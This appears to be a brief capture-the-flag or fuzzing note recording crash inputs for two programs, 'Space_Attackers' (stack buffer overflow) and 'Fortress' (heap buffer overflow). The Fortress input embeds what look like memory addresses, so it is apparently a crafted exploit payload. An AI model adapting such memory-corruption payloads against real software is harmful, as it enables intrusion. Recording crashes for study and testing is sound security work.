# Space_Attackers

## Type

Stack based buffer overflow.

## Crash

```python
'magic\n' + ('\n\n\n\nd\n' * 24) + ('\n' * 16) + ((('w\n' * 10) + 's\n') * (280)) + 's\n' + 'd\n' + 'q\n'
```

# Fortress

## Type

Heap buffer overflow.

## Crash

```python
"\x10\x87\x04\x08\n-1337\n0\n2\n1\n0\n1\n0\n6\n0\nThis is a great program Love it! Thanks for making this :) G\x24\x35\x06\x08I am done with this-\n6\n1\nHELO\n"
```
